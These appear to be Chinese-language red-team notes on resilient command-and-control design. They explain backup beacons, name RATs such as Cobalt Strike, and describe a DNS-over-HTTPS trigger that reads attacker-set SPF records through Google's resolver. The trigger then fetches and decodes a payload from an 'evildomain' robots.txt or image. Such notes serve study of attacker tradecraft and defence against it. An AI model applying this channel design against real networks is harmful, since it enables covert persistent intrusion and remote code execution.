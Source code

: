 ### 构建高适应性的C2基础设施
Building resilient C2(command and control) infrastructures

* 持久访问方式(Persistent access)
  * 备用低频方式(long-haul beacons)stage 1
    * 功能极简 - 当所有的 日常高频方式(short-haul beacons) 都失败时 可以恢复对目标网络的访问(Backup channel)
    * 隐蔽性高 - 以尽量不让防御者发现的方式运作的方式：低频率的回调(calls back)、数据量小(如只传递payload的 delivery地址) ...
  * 日常高频方式(short-haul beacons)stage 2
    * 功能完整 - 功能强大的RAT`Cobalt Strike` `Empire` `Slingshot`...
    * 隐蔽性低 - 攻击者日常使用的、较频繁的对目标网络进行操作的方式
* 健壮的C2基础设施 特征
  * channel多样性 - 具有多个channel的持久访问 稳定性强（避免丢失目标网络的权限）
  * channel独立性 - 如果一个channel被发现，不会直接暴露其他channel（避免关联发现其他channel）
  * channel隐蔽性 - 通信流量加密形式或与正常的网络流量混合（避免各种方式的调查）

### 具体方案1 - DNS over HTTPS (DoH)

stage 1 : DNS over HTTPS (DoH)

[RFC 8484 - DNS Queries over HTTPS (DoH)](https://tools.ietf.org/html/rfc8484)

DNS over HTTPS (DoH)允许通过https协议进行DNS解析.

DNS over HTTPS (DoH) allows for DNS resolution via the HTTPS protocol.

* 从攻击者的角度看DoH的优势
  * 可控字符串 `响应中有部分内容是攻击者可控的`
  * “白”域名 `Google Public DNS` https://dns.google.com/resolve?name=qq.com&type=TXT
  * 流量加密 `Over an SSL-encrypted channel`且许多已实施SSL检查的客户将所有`Google domains`排除在检查范围之外（因为Google产品中的证书，流量负载，隐私等）


https GET https://dns.google.com/resolve?name=qq.com&type=TXT

请求中的url参数值`qq.com`为我们可控的域名，设置该域名 的[TXT record](https://en.wikipedia.org/wiki/TXT_record)中的 用于`SPF records`的字符串(通常这里放的是 `IP addresses` `domains` `server names` 在这里放上域名很合理 看起来是无害的)

举例如下：
```
"v=spf1 include:spf.mail.qq.com -all"
```
```
"v=spf1 ip4:192.0.2.0/24 ip4:198.51.100.123 a -all"
```

我们将在响应中看到 可控字符串（其中data字段中的内容确认为我们可控的）

response:
```
{
  "Status": 0,
  "TC": false,
  "RD": true,
  "RA": true,
  "AD": false,
  "CD": false,
  "Question": [
    {
      "name": "qq.com.",
      "type": 16
    }
  ],
  "Answer": [
    {
      "name": "qq.com.",
      "type": 16,
      "TTL": 3329,
      "data": "\"v=spf1 include:spf.mail.qq.com -all\""
    }
  ]
}
```

所以`DoH via Google`是一个触发payload运行的理想channel

* 目标主机中的`SPFtrigger`
  * 定期查询：提取DNS`TXT record`中`SPF records`信息
  * 触发条件：当发现了`SPF records`中的新域名时 得到了域名evildomain(stage 2) 这个域名存放了payload
  * 提取方案-a`http-robots.txt`：`SPFtrigger`程序根据evildomain域名 访问`http://evildomain/robot.txt`提取`payload` 进行decode得到raw payload
    * https://github.com/outflanknl/DoH_c2_Trigger/blob/master/DoHtrigger.ps1
  * 提取方案-b`http-xxx.png`：`SPFtrigger`程序根据evildomain域名 访问`http://evildomain/date.png`提取`payload` 进行decode得到raw payload
    * https：//github.com/peewpw/Invoke-PSImage
  * 触发执行 - `payload triggering`
